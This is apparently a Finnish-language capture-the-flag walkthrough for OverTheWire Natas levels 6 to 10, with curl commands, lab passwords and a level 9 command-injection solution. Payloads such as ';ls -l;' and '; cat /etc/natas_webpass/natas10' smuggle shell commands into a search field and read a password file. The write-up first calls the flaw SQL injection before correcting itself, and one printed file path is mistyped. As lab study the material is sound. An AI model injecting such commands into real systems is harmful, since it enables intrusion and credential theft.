

# Natas lunttilapput - START HERE

Eli aikaisempien harjoittuksien kannalta kertyy ja taso menee vaikeammaksi ja vaikeammaksi. Listataan olennaiset tarkistukset, ettei ole vain yhtä tapaa;

- tarkista sivuston "inspect" eli avaamalla näppäimistöstä F12 , tai joko sivustolta oikea hiirellä "inspect" - ja katso onko koodissa mitään `username:password`
  - tarkista onko tiedoston polussa mitään polkuaja kuten `/file/image.jpg`, eli poista image.jpg , ja mene `/file`- polkuun, ja tarkista onko mahdollista olla .txt tiedostoa tai muuta arkistoa
  - lisää url polkuun `/robots.txt` , jos ois robots tiedosto, niin siellä voi lukea lisä vinkkejä. Todellisuudessaan kaikilla sivustoilla ei ole robots.txt-tiedostoa, koska sen käyttö ei ole pakollista. Jotkut haluavat hakukoneiden indeksoivan kaiken, kun taas toiset eivät tarvitse erityisiä rajoituksia. Ilman tätä tiedostoa hakukoneet voivat silti yrittää indeksoida kaikki löydettävissä olevat sivut, ellei muita estomekanismeja ole käytössä.
 
# curl komentoja 

käytettään -Headeri referenssiä (`-H` - on se lyhenne), ja tässä muutama ovat melko samoja, mutta jotekin se objekti/nimi/muuttuja on erissä järjestyksessä mutta idea on sama;

- `$curl -H "Referer: http://natas7.natas.labs.overthewire.org/" -u "natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" "http://natas7.natas.labs.overthewire.org/index.php?page=home" `

- `$curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS "http://natas7.natas.labs.overthewire.org"`


Tämä on yksi, josta selvitettään ja testattaan se salainen koodi joka menee formaattiin , missä sivustossa onkaan ja täsmentyy siihen headeriin html:ään;
  - `curl -X POST -d "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit" -H "Referer: http://natas6.natas.labs.overthewire.org/" -u "natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned" http://natas6.natas.labs.overthewire.org/`

## natas hakemisto polku

tässä harjoitus pelissä (level) on hakemisto polku, joka on `etc/natas_webpass/natasX` - X tarkoittaa levelin numeroa, että mitä vaikeammaksi menee ja tämä tuli alkuun level 7:ssa. 

---

# LEVEL 9 - START HERE;

natas9  ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

Tässä kappaleessa tapahtuu SQL injektiota, ja tässä tasossa käytettään puolikasta kaksoispistettä `;`. Miten tämä liittyy tähän haavoittuvuutteen ja tasoon? Koska SQL-injektiossa liittyy siihen, miten SQL-kyselyt voidaan ketjuttaa tai erottaa toisistaan. SQL-injektiossa hyökkääjä voi käyttää puolikasta kaksoispistettä ; lisätäkseen ylimääräisiä SQL-komentoja alkuperäiseen kyselyyn, mikä voi johtaa tietokannan manipulointiin tai tietojen vuotamiseen.

Ensimmäisenä tarkistettaan koodit joko F12 / hiiren oikean klikkauksella, ja sama idea kuin aikaisempi taso (Level 8), jossa anna salainen koodi niin saadaan Level 10 salasanansa. Seuraavaksi sitten mennään **"view sourcode" välilehteen**.


Sama tässä "view sourcecode" sivuston välilehdessä toi pientä vihjettä, mutta ei paljoo - paitsi "dictionary.txt"


Sijoitin tiedoston polun URL linkkiin, mutta yhtäkkiä se onkin joku yleinen tiedosto kirjasto `/dictionary.txt`


## Level 9 - 1 selvittämistä

Tässä välilehden sivustossa on koodattu PHP-koodkielellä (siinä välissä)

Harjoituksessa tässä tapahtuu periaatteessa rivissä / kohdalla kuin `"passthru("grep -i $key dictionary.txt");"` - joka on haavoittuvuus. Tämä ei tarkista, mitä `$key` muuttujassa on - joten käyttäjä voi lisätä shell-komentoja sen perään puolipisteellä `;`

Tässä harjoituksessa nimenomaan passthru()-funktio on haavoittuva, koska:
- Se suorittaa shell-komennon suoraan ilman suodatusta.
- Käyttäjän syöte ($_REQUEST["needle"]) liitetään suoraan komentoon ilman rajausta tai puskurointia.
- Ja kuten mainittua – puolipiste ; toimii komentojen erottimena Linuxin bashissa, jolloin hyökkääjä voi lisätä omia komentojaan perään.

**Tuotannossa/tosi elämässään**; <br>
Todellisuuden parantaminen, jos puhutaan tietoturvallisesta ja vastuullisesta tavasta käsitellä käyttäjän syötettä, niin `passthru()`-funktion käyttö pitäisi useimmissa tapauksissa poistaa tai ainakin eristää tarkasti.
- älä koskaan päästä käyttäjiä syötettä komentoriville - edes käsitelynsä - jos voi tehdä niin saman asian suoraan PHP:llä.
- Vain rajoittaa käyttäjän syötettä siten, että sitä ei käsitellä tai hyväksyä, ellei se viittaa tiettyyn hyväksyttyyn tiedostoon/hakemistoon tai arvoon. Tämä on yksi suojaustapa.

Tämä koskee myös muita erikoismerkkejä, polkuviittauksia kuten `../secrets.txt` ja sallii vain esim. `dictionary.txt`- tiedoston käsittelyä, ja ei käytä komentorivienkäskyjä **(passthru/exec)**- kaikkiin tehdä turvallisesti PHP:llä ja tämä koskee koko verkkosivustojen arkkitehtuuria.


## Level 9 - 2 - HARJOITUS JATKUU

Periaatteessa menee takaisin etusivulle ja siitä syöttää ja tekee SQL injektiota käyttäen kaksois puolipistettä `;` ja tässä harjoituksessa kokeillaan käyttää Linux terminaalia ja yleisiä komentoja. Muissa linkeissä (netistä) jos tarkistelee ja lunttaa sieltä, niin siellä on muitakin keinoja mm. syöttää siihen kenttään `../../../` ja jne. mutta harjoitus on harjoitus.

Tässä harjoituksessa halutaan mennä kuin aikaisempi tasossa **(level 7)** ideana, että selvitettään `/etc/natas_webpass/natas10` - tämän level 10 tason salasansa. Eli kiinnitettään tähän hakemiston polkuun `/etc/natas_webpass/` - eli **uutta asiaa jälleen kerran**.

Harjoituksessa käytin kenttään; `;ls -l;` - jossa alkaa kaksois puolipiste ja Linux list `-l` (long), ja kuvassa näkyy minkä toistin, niin se tuo sen tuloksensa.

Näiden URL välilehdestä näkee, mitä toistin aikaisemmin ja kentässä on vain pientä toistoa, että mitä syötin.


Tässä välissä menin vähä monimutkaisesti, mutta harjoitus on harjoitus, ja hyväkin ymmärtää ja kulkeakin. Huomioina tässä välissä tarkistellin muita hakemistojen polkua, mutta en ois uskonut tässä hakemiston polussa on muitakin leveliä. Kuitenkin ei kannatta jäädä katsellee niitä, koska tämän *pelin* ideana mennä kohti vaikeammaksi ja vaikeammaksi.


## Level 9 - 3 the real answer

Tämän virallisen helpoiten ja virallinen vastaus on syöttämällä tämä injektio vastaus kentälle, niin sitten toistuu virallinen Level 10:n salasansa eli `; cat /etc/natas/webpass/natas10`





## Level 9 - 4 Kali Linux step - START HERE;

Perus alkuun tarkistuksena;

```
┌──(kali㉿kali)-[~]
└─$ curl -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Sitten otettaan toi välilehti ja lisätään se perään url:iin, ja tästä ei ole kauheastikaan apua verratuna selaimessa, mutta paitsi kertoi **dictionary.txt** tiedosto on olemassa.

```
┌──(kali㉿kali)-[~]
└─$ curl -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/index-source.html 
<code><span style="color: #000000">
&lt;html&gt;<br />&lt;head&gt;<br />&lt;!--&nbsp;This&nbsp;stuff&nbsp;in&nbsp;the&nbsp;header&nbsp;has&nbsp;nothing&nbsp;to&nbsp;do&nbsp;with&nbsp;the&nbsp;level&nbsp;--&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;type="text/css"&nbsp;href="http://natas.labs.overthewire.org/css/level.css"&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/jquery-ui.css"&nbsp;/&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/wechall.css"&nbsp;/&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-ui.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src=http://natas.labs.overthewire.org/js/wechall-data.js&gt;&lt;/script&gt;&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/wechall.js"&gt;&lt;/script&gt;<br />&lt;script&gt;var&nbsp;wechallinfo&nbsp;=&nbsp;{&nbsp;"level":&nbsp;"natas9",&nbsp;"pass":&nbsp;"&lt;censored&gt;"&nbsp;};&lt;/script&gt;&lt;/head&gt;<br />&lt;body&gt;<br />&lt;h1&gt;natas9&lt;/h1&gt;<br />&lt;div&nbsp;id="content"&gt;<br />&lt;form&gt;<br />Find&nbsp;words&nbsp;containing:&nbsp;&lt;input&nbsp;name=needle&gt;&lt;input&nbsp;type=submit&nbsp;name=submit&nbsp;value=Search&gt;&lt;br&gt;&lt;br&gt;<br />&lt;/form&gt;<br /><br /><br />Output:<br />&lt;pre&gt;<br /><span style="color: #0000BB">&lt;?<br />$key&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">""</span><span style="color: #007700">;<br /><br />if(</span><span style="color: #0000BB">array_key_exists</span><span style="color: #007700">(</span><span style="color: #DD0000">"needle"</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$key&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">"needle"</span><span style="color: #007700">];<br />}<br /><br />if(</span><span style="color: #0000BB">$key&nbsp;</span><span style="color: #007700">!=&nbsp;</span><span style="color: #DD0000">""</span><span style="color: #007700">)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">passthru</span><span style="color: #007700">(</span><span style="color: #DD0000">"grep&nbsp;-i&nbsp;</span><span style="color: #0000BB">$key</span><span style="color: #DD0000">&nbsp;dictionary.txt"</span><span style="color: #007700">);<br />}<br /></span><span style="color: #0000BB">?&gt;<br /></span>&lt;/pre&gt;<br /><br />&lt;div&nbsp;id="viewsource"&gt;&lt;a&nbsp;href="index-source.html"&gt;View&nbsp;sourcecode&lt;/a&gt;&lt;/div&gt;<br />&lt;/div&gt;<br />&lt;/body&gt;<br />&lt;/html&gt;<br /></span>
</code>
```


Huomiona tuossa sivustossa voi olla eri ja pitää tehdä vertailu, että tarkistaa/muuttaa tuota `curl`- komentoa vähäsen..

Tämä on se html formaatti lomake kenttä koodi;
```
            <form>
                Find words containing: <input name=needle>
                <input type=submit name=submit value=Search>
                <br>
                <br>
            </form>
```

Nyt muutettuna ja ainakin toimii tämä `ls -l` linux yleinen komento tarkistettaan hakemiston listauksia ja nykyisestä polusta. **Mitä tässä on muutettu?** Ennen `-d "secret=;ls -l;&submit=submit"` --> after ; `-d "needle=xyz;ls -l;&submit=submit"`

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -d "needle=;ls -l;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/ 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
total 460
-rw-r----- 1 natas9 natas9 460878 Apr 10 14:18 dictionary.txt
-rw-r--r-- 1 root   root     2924 Apr 10 14:18 index-source.html
-rw-r----- 1 natas9 natas9   1185 Apr 10 14:18 index.php
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


Myös muita samankaltaisia toimivia komentoa;
-  `curl -X POST -d "needle=;pwd;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/`


**Miksi tässä ei mainittu lisä vihjeitä?**

Tämä on tahallista. Tästä tasosta eteenpäin *OverTheWire* alkaa siirtyä vähemmän kädestä pitäviin tehtäviin ja alkaa testata. Tässä level 9:ssä vaikka lähdekoodissa ei suoraan mainita salasanaa tai sen sijaintia, sen odotetaan löytyvän tiedostosta muodossa, mutta jatkossa voi olla jouduttaan käyttää tätä tallennettua tiedoston polkua `/etc/natas_webpass/natas10`.

Nyt ainakin alkoi pelittää ja kertomaan sen polun ja tämän kanssa pitää olla tarkanna komennon syöttämisen kannalta, ja tuossa tuli kaikki natas tasot siksi laitoin piste piste väliin (turhia yli määräisiä rivien toistoja).

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -d "needle=;ls /etc/natas_webpass;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/ 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
natas0
natas1
natas10
...
natas6
natas7
natas8
natas9
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Level 9 - Miniyhteenveto
tässä kokonaisuudessaan ei tapahtunut SQL injketiota, vaan enemmin komentorivin (shell) - Linux injektiota (command injection / linux shell injection). Koska erona SQL injektiossa käytettäisiin heitomerkkiä `'` ja esim. `' OR '1'='1` ja jne, mutta tässä terminaalissa käytettiin alku ja päättyvä puolikas kaksoispiste.

**Miksi näin, ja miksi tämä komentoinjektiota?** 
Koska yhdessä sivustossa tuli PHP koodirivssä kuin `passthru("grep -i $needle dictionary.txt");` ja siksi käyttäjän syöte päätyy osaksi shell-komentoa ilman suojausta ja se ei liittyisikään tietokantaan eikä SQL lauseisiin ja siksi kyseessä on puhdas **command injection**. 

Sekä tässä tapahtui  shell-komentoa (`grep`) ja `passthru()`-funktiota — mitään tietokantaa ei ole mukana.


---

# LEVEL 10 - START HERE;


natas10 t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

Nyt mennään sama idea kuin aikaisempi taso (**level 7 ja 9**), mutta nyt tässä tapahtuu yhdessä *view sourcecode* yhdessä PHP koodikielessä on estetty tiettyjä erikoismerkkejä. 


periaatteessa tämä on se linux shell komentojen injektio estäminen eli ei voida käyttää enään `;` puoli kaksoispistettä ja siksi siinä lukee `if(preg_match..blahlbah)` tiettyä erikoismerkkejä estetty ja on mahdollista muita erikoismerkkiä saattavat toimia.


